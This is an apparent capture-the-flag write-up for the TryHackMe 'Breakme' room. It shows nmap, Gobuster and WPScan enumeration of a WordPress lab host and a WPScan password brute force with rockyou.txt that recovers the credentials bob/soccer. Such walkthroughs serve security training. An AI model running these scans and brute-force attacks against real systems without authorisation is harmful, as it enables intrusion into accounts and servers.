

Difficult: Medium
--------------------------------
Note: Break this secure system and get the flags, if you can.
--------------------------------
Link: https://tryhackme.com/r/room/breakmenu

RECON:
+ Scan ports the machine with NMAP:

```bash
nmap -sV -vv -A -p- -T4 <IP>
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 8e:4f:77:7f:f6:aa:6a:dc:17:c9:bf:5a:2b:eb:8c:41 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDPKq6PCdkc7tlJ9u/XcYjAfE8S8bOYjQe4+3teDY9e24Hfh7Qc3kXDIN52yu+ijvM7ZhcWwwLqikpNzqbhCQq8Ytf60lqNTPvekszBOP4xCJJWm2roGNftNu+IAIWgar7vOhHxLlniLdIt514pbiG2ZPZGxVdBHb7WsVVGUuM+b0AQOH7S9FLXBVqngrlrXUhhBsYtREfZxs4k+AE4N2ajcCEtPcdiLybPXddOD4GgM0nSwpTwlDehZ2NWVETT6ibQjl8T7WGogeIq1oO/LyOjLeu6MKuchp1H5FkIqe+wyZtRhjAsyKjrCGrCV4QM004AtcR/NjHaK7vvEqvRKOYmCmk7IotV/AtAD37GEu+qX0SePWVbZ8DweVIHYBPbJv1nCXkAy+T8eoj1dnvCgKsfz7L5PbkWucfF+gwzGTHwq2n9TrEOy99p6MStNv8ZBkXBY+2moD0ahZA3f6qYuvjlH4uVTCzXnbLxGTK0hdWGvT4PvC0vGh661mmaIhI3Ag0=
|   256 a3:9c:66:73:fc:b9:23:c0:0f:da:1d:c9:84:d6:b1:4a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPeQGv1A7372SDcT2mRIrMxbQaXJ1RA1ibSYWQ6WJxPH5YZCEQzSTHh5eTrum2k0SvIjmPyLfsoVmmOoPZGaR1g=
|   256 6d:c2:0e:89:25:55:10:a9:9e:41:6e:0d:81:9a:17:cb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAuvMwyWKUHQmG5CUtHi/vQ5F2fhnT8k0jGo18znKuHQ
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.56 (Debian)
```

+ Scan directories with Gobuster:

```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<IP>/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.txt        (Status: 403) [Size: 276]
/.htpasswd.txt        (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.hta.txt             (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 10701]
/manual               (Status: 301) [Size: 311] [--> http://<IP>/manual/]
/server-status        (Status: 403) [Size: 276]
/wordpress            (Status: 301) [Size: 314] [--> http://<IP>/wordpress/]
Progress: 9228 / 9230 (99.98%)
===============================================================
Finished
===============================================================
```
--> Access /wordpress, we got the website page Wordpress name BreakMe.

+ Check around the page we got some information about the page.
+ Author of page : admin and user "admin" is available in login page.



+ Continue scanning the website page /wordpress with Gobuster:

```bash
$ gobuster dir -u http://<IP>/wordpress/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t64
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<IP>/wordpress/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 329] [--> http://<IP>/wordpress/wp-content/]
/wp-includes          (Status: 301) [Size: 330] [--> http://<IP>/wordpress/wp-includes/]
/wp-admin             (Status: 301) [Size: 327] [--> http://<IP>/wordpress/wp-admin/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```
--> We have the login page /wp-admin.

+ Now we've known the website page is page Wordpress so we are able to use specialized tool for scanning Wordpress call "WpScan".


```bash
[+] WordPress version 6.4.3 identified (Insecure, released on 2024-01-30).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.194.162/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=6.4.3</generator>
 |  - http://10.10.194.162/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.4.3</generator>

[+] WordPress theme in use: twentytwentyfour
 | Location: http://10.10.194.162/wordpress/wp-content/themes/twentytwentyfour/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://10.10.194.162/wordpress/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.2
 | Style URL: http://10.10.194.162/wordpress/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.194.162/wordpress/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.0'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:10 <===========> (100 / 100) 100.00% Time: 00:00:10
```
+ We've found the identified users:

```bash
[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.194.162/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bob
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
+ Now we continue using WpScan to brute force user to find available passwords.

```bash
    wpscan --url <IP>/wordpress -U bob -P rockyou.txt
+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - bob / soccer                                                                   
Trying bob / angel Time: 00:00:01 <                 > (36 / 14344428)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: bob, Password: soccer
```
---> We've found the password and use it to login again /wp-admin.


